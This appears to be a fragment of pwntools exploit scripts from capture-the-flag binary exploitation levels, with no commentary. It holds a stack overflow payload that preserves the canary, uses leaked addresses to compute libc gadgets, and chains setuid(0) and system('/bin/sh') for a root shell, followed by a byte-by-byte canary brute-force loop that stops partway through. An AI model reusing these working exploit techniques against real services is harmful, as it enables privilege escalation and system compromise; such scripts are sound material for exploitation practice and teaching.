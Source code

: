 payload=b'b'*0x28+p64(can)+p64(0)+b'\x00'
p.send(payload)

p.recvuntil("[LEAK] Your input buffer is located at: ")
add_str1=p.recvuntil(".",drop=True)
buffer_add1=int(add_str1,16)
ret_add=buffer_add1+0x38
p.sendline(hex(ret_add))

p.recvuntil(" = ")
ret_str=p.recvuntil("\n",drop=True)
ret=int(ret_str,16)

basic=ret-0x270b3
bin_sh_offset=0x1b75aa
setuid_add=libc.symbols["setuid"]+basic
sys_add=libc.symbols["system"]+basic
bin_sh=bin_sh_offset+basic
rdi_ret=basic+0x26b72
rsi_r15_ret=basic+0x26b70

payload=b'b'*0x28+p64(can)+p64(0)+p64(rdi_ret)+p64(0)+p64(rsi_r15_ret)+p64(0)*2+p64(setuid_add)+p64(rdi_ret)+p64(bin_sh)+p64(rsi_r15_ret)+p64(0)*2+p64(sys_add)
p.send(payload)
p.interactive()

level 14
from pwn import *
can_list=[]

payload=b'b'*0x38+b'\x00'

for round in range(7):
    for i in range(256):
        p=remote("127.0.0.1","1337")
        #libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
        test_payload=payload+i.to_bytes(1, byteorder='little')
        p.send(test_payload)
        res_str=str(p.recvall())
        if res_str.find("Goodbye!")!=-1:
            p.close()
            payload+=i.to_bytes(1, byteorder='little')
            can_list.append(i)
            break
        p.close()

print(can_list)
canary_str="0x"
for i in range(len(can_list)):
    tt=hex(can_list[-(i+1)])[2:]
    if(len(tt)!=2):
        tt='0'+tt
    canary_str+=tt
canary_str+="00"

